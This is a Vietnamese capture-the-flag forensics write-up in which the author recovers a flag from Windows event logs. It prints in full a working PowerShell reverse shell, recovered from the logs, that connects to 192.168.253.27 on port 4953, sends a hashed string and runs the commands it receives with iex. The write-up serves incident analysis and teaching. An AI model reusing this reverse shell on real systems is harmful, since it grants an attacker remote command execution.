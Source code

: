 ![](https://github.com/HuyThang25/Image/blob/main/Screenshot%202023-06-20%20154222.png)

# Phân tích
Đề bài cho một thư mục bào gồm cái file log

Sử dụng `Event Viewer` để phân tích. Mở file `Microsoft-Windows-PowerShell%4Operational.evtx`, để xem các powershell đã thực thi. Thấy một đoạn script có vè khả nghi:

![](https://github.com/HuyThang25/Image/blob/main/Screenshot%202023-06-20%20154731.png)

```powershell
$client = New-Object System.Net.Sockets.TCPClient("192.168.253.27", 4953)
$stream = $client.GetStream()
[byte[]]$bytes = 0..65535 | ForEach-Object { 0 }
$sendbyte = "KMACTF{$(([System.BitConverter]::ToString(([System.Security.Cryptography.MD5]::Create()).ComputeHash(([System.Text.Encoding]::UTF8.GetBytes(((Get-Process -Id $PID).Id.ToString()+[System.Security.Principal.WindowsIdentity]::GetCurrent().Name+(Get-Date).ToString())))))).Replace('-', '').ToLower())}"
$sendbyteBytes = [System.Text.Encoding]::ASCII.GetBytes($sendbyte)
$stream.Write($sendbyteBytes, 0, $sendbyteBytes.Length)
$stream.Flush()
while (($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) {
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes, 0, $i)
    $sendback = (iex $data 2>&1 | Out-String)
    $sendback2 = $sendback + "PS " + (Get-Location).Path + "> "
    $sendbyte = ([Text.Encoding]::ASCII).GetBytes($sendback2)
    $stream.Write($sendbyte, 0, $sendbyte.Length)
    $stream.Flush()
}
$client.Close()
```
Đọc qua đoạn script trên thì nó thực hiện như sau : 
- Lấy PID của tiến trình hiện tại: `Get-Process -Id $PID`
- Lấy tên của Domain và User: `[System.Security.Principal.WindowsIdentity]::GetCurrent().Name`
- Lấy thời gian lúc thực hiện script: `Get-Date`
- Sau đó băm MD5 những thứ lấy được và gửi cho ip `192.168.253.27` qua port `4953` bằng giao thức TCP

# Solved

## Lấy PID 
Để xem PID của tiến trình ta xem Event dưới dạng XML Details 

![](https://github.com/HuyThang25/Image/blob/main/Screenshot%202023-06-20%20155819.png)

Nhưng có vẻ như đã bị động tay khiến cho không thể xem được. Xem tiếp các event khác thì thấy vẫn xem được

![](https://github.com/HuyThang25/Image/blob/main/Screenshot%202023-06-20%20162724.png)

Nhận thấy event này được thực thi chỉ cách đoạn trước có 1 giây nên khả năng là nằm trong cùng 1 tiến trình => PID = 4144

# Lấy Domain và User

Xem phần Path

![](https://github.com/HuyThang25/Image/blob/main/Screenshot%202023-06-20%20160939.png)

Đươc user = long

Còn Domain thì sử dụng file `Security.evtx` để lấy :

![](https://github.com/HuyThang25/Image/blob/main/Screenshot%202023-06-20%20161053.png)

=> Domain = KMA
# Lấy thời gian :

![](https://github.com/HuyThang25/Image/blob/main/Screenshot%202023-06-20%20161236.png)

Time = `5/22/2023 5:09:58 PM`

# Lấy Flag

Chạy đoạn script:
```ps
echo "KMACTF{$(([System.BitConverter]::ToString(([System.Security.Cryptography.MD5]::Create()).ComputeHash(([System.Text.Encoding]::UTF8.GetBytes(("4144"+"KMA\long"+"5/22/2023 5:09:58 PM")))))).Replace('-', '').ToLower())}"
```
Ta đươc flag:

![](https://github.com/HuyThang25/Image/blob/main/Screenshot%202023-06-20%20164119.png)
